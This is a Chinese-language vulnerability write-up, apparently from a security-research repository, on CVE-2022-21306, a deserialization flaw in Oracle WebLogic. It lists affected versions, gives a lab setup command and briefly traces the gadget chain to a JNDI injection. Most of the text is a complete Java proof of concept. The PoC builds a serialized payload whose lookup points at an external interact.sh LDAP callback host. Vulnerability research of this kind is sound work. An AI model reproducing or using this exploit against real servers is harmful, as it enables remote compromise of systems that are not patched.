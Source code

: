 # CVE-2022-21306 反序列化漏洞
- [影响版本][#影响版本]
- [环境搭建][#环境搭建]
- [原理分析][#原理分析]
		- [FileSessionData][#FileSessionData]
		- [AttributeWrapperUtils][#AttributeWrapperUtils]
		- [JNDI][#JNDI]
- [poc][#poc]

## 影响版本
Oracle Weblogic 12.1.3.0.0   
Oracle Weblogic 12.2.1.3.0  
Oracle Weblogic 12.2.1.4.0 
Oracle Weblogic 14.1.1.0.0
## 环境搭建
`docker run --name="weblogic" -d -p 7001:7001 -p 5005:5005 vulhub/weblogic:12.2.1.3-2018`
## 原理分析
一条T3协议的反序列化新链,简单记录一下该链.

### FileSessionData
在Weblogic的有一个FileSessionData类继承于SessionData类,其重写了toString()方法.
![](pic/2022-05-31-10-05.png)
在该类中经过几次调用最后会执行AttributeWrapperUtils.unwrapObject(name, (AttributeWrapper)o.
![](pic/2022-05-31-10-05-1.png)
其中o是从attributes map中取得Key为wl_debug_session的对象.
### AttributeWrapperUtils
来到AttributeWrapperUtils类中,当取得的对象为BusinessHandle子类时则会调用BusinessHandle类的getBusinessObject()方法.	
![](pic/2022-05-31-10-05-2.png)
来到其getBusinessObject()方法,其中当primarkKey为空时,则调用homeHandle#getEJBHome()方法.
![](pic/2022-05-31-10-05-4.png)
### JNDI
最终在homeHandle中执行了以ctx.lookup()造成JDNI注入.
![](pic/2022-05-31-10-05-5.png)

最后用CC5中的BadAttributeValueExpException来进入FileSessionData的toString()方法即可.
### poc
```java
import weblogic.ejb.container.internal.BusinessHandleImpl;  
import weblogic.ejb20.internal.HomeHandleImpl;  
import weblogic.servlet.internal.AttributeWrapper;  
import weblogic.servlet.internal.session.FileSessionData;  
import javax.management.BadAttributeValueExpException;  
import javax.naming.ldap.LdapName;  
import java.io.FileOutputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Field;  
import java.util.HashMap;  
import java.util.Map;  
  
public class cve_2022_21306 {  
    public static void main(String[] args) throws Exception {  
        //HomeHandleImpl  
        HomeHandleImpl homeHandles = new HomeHandleImpl();  
        Field jndiname = homeHandles.getClass().getDeclaredField("jndiName");  
        Field serverurl = homeHandles.getClass().getDeclaredField("serverURL");  
        serverurl.setAccessible(true);  
        jndiname.setAccessible(true);  
        jndiname.set(homeHandles,new LdapName("cn=a,dc=a"));  
        serverurl.set(homeHandles,"ldap://caa336c2vtc0000tkqx0gffd8ahyyyyyd.interact.sh/a");  
        //BusinessHandleImpl  
        BusinessHandleImpl businessHandle = new BusinessHandleImpl();  
        Field homeHandle = businessHandle.getClass().getDeclaredField("homeHandle");  
        homeHandle.setAccessible(true);  
        homeHandle.set(businessHandle,homeHandles);  
        //AttributeWrapper  
        AttributeWrapper attributeWrapper = new AttributeWrapper(businessHandle);  
        Map<String, Object> attribute = new HashMap<>();  
        attribute.put("wl_debug_session",attributeWrapper);  
        //FileSessionData  
        FileSessionData fileSessionData = new FileSessionData();  
        Field attributes = fileSessionData.getClass().getSuperclass().getDeclaredField("attributes");  
        attributes.setAccessible(true);  
        attributes.set(fileSessionData,attribute);  
        //BadAttributeValueExpException  
        BadAttributeValueExpException Badobj = new BadAttributeValueExpException(null);  
        Field val = Badobj.getClass().getDeclaredField("val");  
        val.setAccessible(true);  
        val.set(Badobj,fileSessionData);  
        ObjectOutputStream oos  = new ObjectOutputStream(new FileOutputStream("test.ser"));  
        oos.writeObject(Badobj);  
    }}
```